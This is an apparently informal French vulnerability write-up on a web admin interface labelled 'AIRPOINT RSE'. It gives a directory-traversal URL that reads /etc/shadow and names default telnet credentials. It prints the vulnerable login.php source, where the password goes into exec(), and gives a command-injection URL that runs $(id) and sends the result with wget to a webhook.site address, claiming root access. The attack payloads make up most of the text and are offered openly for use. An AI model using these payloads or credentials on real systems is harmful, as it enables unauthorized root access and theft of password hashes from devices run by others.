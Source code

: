html:"AIRPOINT RSE"

encore une clownerie

302 bypass sur /Log.php qui permet de découvrir /download.php?file_down qui lui meme est vuln a des attaques de directory traversal.

Ah oui et le serv web tourne en root donc..

/download.php?file_down=../../../../../../etc/shadow  :)

ensuite on trouve les noms des user : ezboard et bien sur user as pass sur le telnet.. (ezboard:ezboard)

MAIS YA MIEU
```
---------------------------- login.php ----------------------------
<? require "cfg_cmd.php"; ?>

<?
    session_start();
    if( isset($HTTP_SESSION_VARS['login_name']) == false )
    {
        session_register("login_name");
    }
    $user_id = exec($cfg_read . "user_id");
    if( ($HTTP_SESSION_VARS['login_name'] != $user_id) )
    {
        if( isset($_GET['login_id']) )
        {
            $user_pw = exec($cfg_read . "user_pw");
            $input_id = $_GET['user_id'];
            $input_pw = $_GET['user_pw'];
            $input_pw = exec($cfg_aes_enc . $input_pw);
            if( ($user_id == $input_id) && ($user_pw == $input_pw) )
            {
                $HTTP_SESSION_VARS['login_name'] = $user_id;
                echo "OK";
            }
            else
            {
                echo "AUTH_FAIL";
            }
        }
        else
        {
            echo "FAIL";
        }
    }
    else
    {
        echo "OK";
    }
?>
```
------------------------------------------------------------------------------------

CA LA, CA, C'EST LE CODE DE LA PAGE DE LOGIN.. 

du coup bon ben /login.php?login_id=123&user_id=123&user_pw=$(wget%20http://webhook.site/xx/$(id))

voila on est root..


:clown_face::clown_face::clown_face::clown_face::clown_face::clown_face::clown_face: pouet pouet
